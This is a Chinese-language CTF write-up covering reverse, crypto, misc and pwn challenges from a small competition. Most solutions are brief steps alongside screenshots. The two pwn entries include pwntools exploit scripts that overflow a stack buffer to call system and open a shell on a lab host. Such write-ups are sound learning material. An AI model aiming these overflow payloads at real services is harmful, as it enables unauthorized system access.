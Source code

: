 ```yaml
---
title: 记一次不知名比赛的WP
---
```

# 记一次不知名比赛的WP

# Reverse

## Reverse_签到

找到main函数，就看到了flag

![image-20230620090120146](https://cdn.a1pha.cn/img/image-20230620090120146.png)

# Crypto

## easily_Caesar

凯撒解码一把梭，key=24

![image-20230620094549028](https://cdn.a1pha.cn/img/image-20230620094549028.png)

# Misc

## medium_CTFvalues

16进制转文本得到unicode编码

![image-20230620094134558](https://cdn.a1pha.cn/img/image-20230620094134558.png)

unicode转ascii码得到base64字符串

![image-20230620094222386](https://cdn.a1pha.cn/img/image-20230620094222386.png)

![image-20230620094242228](https://cdn.a1pha.cn/img/image-20230620094242228.png)

base64解码得到一个字符串，然后ascii码转文本

![image-20230620094305264](https://cdn.a1pha.cn/img/image-20230620094305264.png)

## difficult_mobile_3

jadx打开然后全局搜索base64，找字符串后进行ascii转字符

![image-20230620121849142](https://cdn.a1pha.cn/img/image-20230620121849142.png)

得到，把ip地址进行包裹提交

![image-20230620121956543](https://cdn.a1pha.cn/img/image-20230620121956543.png)

# Pwn

## easily_pwn_1

程序分析：64位程序，之开启了NX保护

![image-20230620140607482](https://cdn.a1pha.cn/img/image-20230620140607482.png)

代码分析：有一个read函数和write函数，可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。

![image-20230620140450114](https://cdn.a1pha.cn/img/image-20230620140450114.png)

然后找是否存在后门函数

![屏幕截图 2023-06-20 140859](https://cdn.a1pha.cn/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20140859.png)

找到system函数的地址，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了

![屏幕截图 2023-06-20 141330](https://cdn.a1pha.cn/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20141330.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9002)
# io = process("./helloworld")
offset = 0x80 + 8

payload = offset*b'a' + p64(0x40059A)

io.sendline(payload)
io.interactive()
```

## medium_pwn_2

程序分析：32位程序，开启了32位保护

![image-20230620141634557](https://cdn.a1pha.cn/img/image-20230620141634557.png)

代码分析：和pwn1一样，看到了read函数，判断存在栈溢出，

![image-20230620141720828](https://cdn.a1pha.cn/img/image-20230620141720828.png)

又看到了system函数,但是少了'/bin/sh'

![image-20230620141900964](https://cdn.a1pha.cn/img/image-20230620141900964.png)

找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出

![image-20230620142144275](https://cdn.a1pha.cn/img/image-20230620142144275.png)

![image-20230620142020421](https://cdn.a1pha.cn/img/image-20230620142020421.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9006)
# io = process("./helloworld")
offset = 0x88 + 4

payload = offset*b'a' + p32(0x0804845C) + p32(0x0804A024) 

io.sendline(payload)
io.interactive()
```
